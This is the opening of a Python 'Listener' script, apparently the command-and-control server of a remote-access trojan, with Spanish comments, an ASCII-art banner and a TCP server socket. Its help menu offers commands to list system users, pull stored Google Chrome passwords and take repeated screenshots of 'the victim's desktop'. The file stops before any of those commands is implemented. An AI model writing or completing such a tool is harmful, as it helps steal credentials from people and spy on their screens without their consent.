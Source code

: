 ## Listener
```python
import signal
import socket
import smtplib
import sys
import re
import time
import os
from termcolor import colored
from colorama import Fore, Style
from email.mime.text import MIMEText





# Manejador de señal para salir de forma segura
def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo...\n", "red"))
    sys.exit(1)

# Asigna la señal SIGINT (Ctrl+C) al manejador anterior
signal.signal(signal.SIGINT, def_handler)


def banner():

      banner="""
\033[33m
                                           
        M                                      
    ,,,M..  `7MN.   `7MF'           .g8\"\"\"bf" 
    'P  M `db, MMN.    M           .dP'     ` 
    8m._M  `"' M YMb   M  ,pW"Wq.  dM'        
    `YMMM._    M  `MN. M 6W'   `Wb MM          
       `MYMMb, M   `MM.M 8M     M8 MM.         
    M   M  .M8 M     YMM YA.   ,A9 `Mb.     ,' 
    YbmmMmd9'.JML.    YM  `Ybmd9'    `"bmmmd'  
        M                                      
      """
      print(banner)




# Definición de la clase Listener
class Listener:
    def __init__(self, ip, port):
        self.options = {
            "- help": "Show this help panel",
            "- get users": "List system valid users (Gmail)",
            "- get browser": "Get Google Chrome Stored Passwords (Gmail)",
            "- get screenshot <file>": "Taking a screenshot of the victim's desktop",
            "- get screenshot spam <seconds> <times>":"Taking multiple screenshot of the victim's desktop every <seconds> <times>"
        }

        # Configuración del socket servidor para escuchar conexiones entrantes
        server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        server_socket.bind((ip, port))
        server_socket.listen()
```